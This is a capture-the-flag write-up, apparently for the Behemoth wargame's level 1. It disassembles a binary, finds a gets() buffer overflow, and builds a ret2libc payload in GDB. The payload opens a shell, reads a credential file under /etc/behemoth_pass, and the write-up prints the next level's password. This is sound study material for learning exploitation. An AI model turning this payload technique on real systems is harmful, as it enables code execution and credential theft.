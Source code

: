 # behemoth1
slopey112 - 3/7/19

Let's take a look at this binary.
```
behemoth1@behemoth:/behemoth$ ./behemoth1
Password: asdf
Authentication failure.
Sorry.
```
Okay, so it's a password auth system. Let's open up GDB and see what we can do.
```assembly
0x0804844b <+0>:	push   ebp
0x0804844c <+1>:	mov    ebp,esp
0x0804844e <+3>:	sub    esp,0x44
0x08048451 <+6>:	push   0x8048500
0x08048456 <+11>:	call   0x8048300 <printf@plt>
0x0804845b <+16>:	add    esp,0x4
0x0804845e <+19>:	lea    eax,[ebp-0x43]
0x08048461 <+22>:	push   eax
0x08048462 <+23>:	call   0x8048310 <gets@plt>
0x08048467 <+28>:	add    esp,0x4
0x0804846a <+31>:	push   0x804850c
0x0804846f <+36>:	call   0x8048320 <puts@plt>
0x08048474 <+41>:	add    esp,0x4
0x08048477 <+44>:	mov    eax,0x0
0x0804847c <+49>:	leave  
0x0804847d <+50>:	ret
```
The main disassembly is very short and very understandable. We print the password prompt and we get the user input, and then print a message. Since there are no jump conditions, we can assume `puts` always prints "Sorry." regardless of the input.

But of course, there is our friend `gets`, calling for a buffer overflow vulnerability. Judging from the load instruction at `0x0804845e`, we can assume that is the size of the buffer. Let's quickly test our hypothesis to make sure.
```
(gdb) b *0x0804847c
Breakpoint 1 at 0x804847c
(gdb) r <<< $(python -c "print 'A'*67+'BBBB'")
Starting program: /behemoth/behemoth1 <<< $(python -c "print 'A'*67+'BBBB'")
Password: Authentication failure.
Sorry.

Breakpoint 1, 0x0804847c in main ()
(gdb) x/20wx $ebp
0xffffd6b8:	0x42424242	0xf7e2a200	0x00000001 0xffffd754
0xffffd6c8:	0xffffd75c	0x00000000	0x00000000 0x00000000
0xffffd6d8:	0xf7fc5000	0xf7ffdc0c	0xf7ffd000 0x00000000
0xffffd6e8:	0x00000001	0xf7fc5000	0x00000000 0x3f61125a
0xffffd6f8:	0x05881e4a	0x00000000	0x00000000 0x00000000
```
And sure enough, the first item on the stack right now is `BBBB`. If we continue, we'll get a segment fault; `ret` is the next instruction, which takes the first item on the stack and returns to that.
```
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xf7e2a202 in __libc_start_main () from /lib32/libc.so.6
(gdb) info registers $ebp
ebp            0x42424242	0x42424242
```
Sure enough, our hypothesis holds. We can use the elegant ret2libc attack as shown in [narnia2](/narnia/narnia2.md).
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e4c850 <system>
(gdb) find 0xf7e4c850, +99999999999, "/bin/sh"
0xf7f6ecc8
warning: Unable to access 16000 bytes of target memory at 0xf7fc8a50, halting search.
1 pattern found.
```
Now that we know where `system` and where `/bin/sh` is, we can construct our payload.
```
behemoth1@behemoth:/behemoth$ (python -c "print 'A'*67+'BBBB'+'\x50\xc8\xe4\xf7'+'BBBB'+'\xc8\xec\xf6\xf7'"; cat) | ./behemoth1
Password: Authentication failure.
Sorry.
whoami
behemoth2
cat /etc/behemoth_pass/behemoth2
eimahquuof
```
